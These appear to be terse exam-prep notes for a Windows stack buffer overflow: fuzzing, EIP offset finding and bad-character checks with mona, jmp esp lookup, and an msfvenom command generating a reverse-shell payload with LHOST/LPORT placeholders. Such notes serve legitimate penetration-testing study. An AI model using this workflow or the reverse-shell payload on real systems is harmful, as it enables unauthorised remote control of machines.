 fuzzing.py

pattern create into payload
exploit.py
!mona findmsp -distance <length>
EIP offset into offset
retn BBBB
exploit.py

!mona bytearray -b "\x00\xa9\xcd\xd4"
badChars.py into payload
exploit.py
!mona compare -f C:\mona\oscp\bytearray.bin -a <address_in_esp>
	Remove results from payload
Repeat till unmodified

!mona jmp -r esp -cpb <badchars>
address into retn (reverse if Little Endian)

msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "<BAD_CHARS>" -f c
into payload

padding = "\x90" * 16











\x00\xa9\xcd\xd4
